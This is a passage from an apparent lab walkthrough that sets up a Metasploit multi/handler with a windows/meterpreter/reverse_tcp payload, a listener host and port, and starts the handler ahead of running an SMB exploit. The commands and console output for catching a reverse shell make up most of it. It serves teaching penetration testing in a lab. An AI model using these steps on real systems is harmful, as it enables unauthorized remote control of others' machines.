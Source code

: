 ## Connection Handler

However, before running the exploit we should create a handler to receive the incoming connection. We can use the `exploit/multi/handler` command to initiate this.

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
```

We can see that by default, the generic reverse shell payload is used. We should change this to match the payload we are planning to use with the smb exploit module, which is `windows/meterpreter/reverse_tcp`. Afterwards, we can set the options we need.

```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.4.72.115
LHOST => 10.4.72.115
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.4.72.115      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

Now we can run the handler and wait for a connection

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.4.72.115:4444 
```

## Creating the Reverse Shell

We can now issue the `run` command on the exploit module to run the exploit and create the reverse shell.
